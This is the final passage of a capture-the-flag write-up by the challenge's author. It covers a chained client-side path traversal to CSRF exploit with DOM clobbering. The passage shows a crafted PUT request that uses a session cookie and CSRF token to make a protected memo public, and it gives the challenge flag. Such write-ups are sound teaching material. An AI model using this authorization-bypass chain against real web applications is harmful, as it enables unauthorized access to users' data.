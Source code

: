 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PUCTF-2025/images/Pasted%20image%2020250501200435.png)

Nice!! We successfully takeover the author account!

- Read the flag memo via the flawed authorization and CSRF token check

First, we'll need to generate and get a valid CSRF token by going to the "Profile" page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PUCTF-2025/images/Pasted%20image%2020250501200618.png)

Then, we can send the following PUT request to update the flag memo's visibility to "Public":

```http
PUT /api/memo/1 HTTP/1.1
Host: chal.polyuctf.com:41338
Cookie: connect.sid=s%3AeI7JyYW52vFowtuNvoFDyBchnFeif23R.SvP2%2FOYQLJqfpT47oDbnSwmWUOU8sxpeNR9CPJGBToI
Origin: http://chal.polyuctf.com:41338
X-CSRF-Token: b7c2a68373f0468de569ba6984a6c72a659e7a54ff3096d3398beed8d6ac5814
X-CSRF-Action: memo_all
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

visibility=1
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PUCTF-2025/images/Pasted%20image%2020250501200859.png)

Finally, we should be able to read the flag memo by going to the "Home" page or send a GET request to `/api/memo`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PUCTF-2025/images/Pasted%20image%2020250501200916.png)

- Flag: **`PUCTF25{CL1ENt_TRavEr5e_T0_ThE_fla9_paTh_2da2d7653a56788f06ad205690738a29}`**

## Why I Made This Challenge

After playing 80+ CTFs, I still haven't encountered a single web challenge about CSPT2CSRF. This vulnerability is absolutely underrated ([Doyensec's research blog post](https://blog.doyensec.com/2024/07/02/cspt2csrf.html) also said so). Therefore, I want people to get some attention about this, because it's really fun to chain different vulnerabilities and have a much higher impact!

## Conclusion

What we've learned:

1. CSPT2CSRF
2. DOM clobbering via URL credentials